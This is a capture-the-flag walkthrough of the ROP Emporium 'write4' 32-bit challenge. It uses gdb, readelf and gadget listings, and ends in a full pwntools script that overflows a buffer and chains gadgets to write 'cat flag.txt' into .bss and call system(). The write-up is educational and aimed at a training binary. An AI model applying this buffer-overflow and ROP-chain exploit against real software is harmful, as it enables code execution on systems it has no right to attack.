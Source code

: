 The goal of the challenge is to master the writing in memory with ropchain. 
In this case we want to write the string '*cat flag.txt*' somewhere in memory. Then perform a system with this string as argument.
To do that we some ingredients:
- writeable memory area
- gadgets to write in memory
- gadgets to execute system()

As always running checksec we have:
```shell
[marco@marco-pc Downloads]$ checksec --file="write432"
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   81 Symbols     No	0		3	write432
```

Before build our ropchain let's see now many bytes there are until eip:
```gdb
[marco@marco-pc Downloads]$ gdb-pwndbg write432
Reading symbols from write432...
(No debugging symbols found in write432)
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
pwndbg> r
Starting program: /home/marco/Downloads/write432 
write4 by ROP Emporium
32bits

Go ahead and give me the string already!
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
...
 EIP  0x6161616c ('laaa')
...
Program received signal SIGSEGV (fault address 0x6161616c)
pwndbg> cyclic -l 'laaa'
44
```

With readelf we can explore memory sections marked as readable and their dimensions:
```shell
[marco@marco-pc Downloads]$ readelf -S write432
There are 31 section headers, starting at offset 0x196c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000030 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481dc 0001dc 0000d0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          080482ac 0002ac 000081 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          0804832e 00032e 00001a 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048348 000348 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             08048368 000368 000020 08   A  5   0  4
  [10] .rel.plt          REL             08048388 000388 000038 08  AI  5  24  4
  [11] .init             PROGBITS        080483c0 0003c0 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483f0 0003f0 000080 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048470 000470 000008 00  AX  0   0  8
  [14] .text             PROGBITS        08048480 000480 000262 00  AX  0   0 16
  [15] .fini             PROGBITS        080486e4 0006e4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080486f8 0006f8 000064 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        0804875c 00075c 00003c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048798 000798 00010c 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        0804a000 001000 000028 04  WA  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
  [26] .bss              NOBITS          0804a040 001030 00002c 00  WA  0   0 32
  [27] .comment          PROGBITS        00000000 001030 000034 01  MS  0   0  1
  [28] .shstrtab         STRTAB          00000000 001861 00010a 00      0   0  1
  [29] .symtab           SYMTAB          00000000 001064 000510 10     30  50  4
  [30] .strtab           STRTAB          00000000 001574 0002ed 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

The bss section seems to be perfect!
Now we need some gadgets to write in memory.
Something like mov `DWORD PTR [reg], reg; ret`.
In this case the program give us usefulGadget:
```gdb
[marco@marco-pc Downloads]$ gdb-pwndbg write432
Reading symbols from write432...
(No debugging symbols found in write432)
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:     mov    DWORD PTR [edi],ebp
   0x08048672 <+2>:     ret    
   0x08048673 <+3>:     xchg   ax,ax
   0x08048675 <+5>:     xchg   ax,ax
   0x08048677 <+7>:     xchg   ax,ax
   0x08048679 <+9>:     xchg   ax,ax
   0x0804867b <+11>:    xchg   ax,ax
   0x0804867d <+13>:    xchg   ax,ax
   0x0804867f <+15>:    nop
End of assembler dump.
```

Usually we need to find ourself.
Another gadget we need is a pop instruction for load values into registers (in this case: bss address in edi, string ebp):
```shell
[marco@marco-pc Downloads]$ cat gadgets | grep pop
0x080486ef : adc ebx, dword ptr [ecx] ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080483dc : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080485ed : add byte ptr [ebx - 0x723603b3], cl ; popal ; cld ; ret
0x080486d5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483de : add esp, 8 ; pop ebx ; ret
0x080486d4 : jecxz 0x8048661 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d3 : jne 0x80486c1 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483df : les ecx, ptr [eax] ; pop ebx ; ret
0x080486d6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080486db : pop ebp ; ret
0x080486d8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483e1 : pop ebx ; ret
0x080486da : pop edi ; pop ebp ; ret
0x080486d9 : pop esi ; pop edi ; pop ebp ; ret
0x080485f3 : popal ; cld ; ret
```
'*pop edi; pop ebp*' fit perfectly for our purpose.
To execute the write i wrote a dedicated function, which basically pad the string with null bytes until the length is a multiple of 4.
Then cut the string in group by 4. And finally it writes 4 bytes at a time in memory adding 4 to the address for each write:
```python
def write_string_bss(mov_gadget, pop_gadget, bss_address, string):
    while len(string) % 4 != 0:
        string += "\x00"

    splitted_string = [string[i:i + 4] for i in range(0, len(string), 4)]
    payload = "".encode()
    for i in range(len(splitted_string)):
        payload += p32(pop_gadget)
        payload += p32(bss_address + (i * 4))
        payload += splitted_string[i].encode()
        payload += p32(mov_gadget)
    return payload
```

It's almost done. We just need a system to execute the syscall like in split challenge:
```
[marco@marco-pc Downloads]$ gdb-pwndbg write432 
Reading symbols from write432...
(No debugging symbols found in write432)
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> p system
$1 = {<text variable, no debug info>} 0x8048430 <system@plt>
```

Final exploit:
```python
from pwn import *

string = "cat flag.txt"
system = 0x8048430
usefulGadgets =  0x08048670 # mov DWORD PTR [edi], ebp
pop_gadget = 0x080486da; #pop edi ; pop ebp ; ret
bss_address = 0x0804a040

def write_string_bss(mov_gadget, pop_gadget, bss_address, string):
    while len(string) % 4 != 0:
        string += "\x00"

    splitted_string = [string[i:i + 4] for i in range(0, len(string), 4)]
    payload = "".encode()
    for i in range(len(splitted_string)):
        payload += p32(pop_gadget)
        payload += p32(bss_address + (i * 4))
        payload += splitted_string[i].encode()
        payload += p32(mov_gadget)
    return payload


exploit = ("A"*44).encode()
exploit += write_string_bss(usefulGadgets, pop_gadget, bss_address, string)
exploit += p32(system)
exploit += ("JUNK").encode()
exploit += p32(bss_address)

p = process('./write432')
p.recvuntil('>')
p.sendline(exploit)
p.interactive()
print(p.recvall().decode())
```
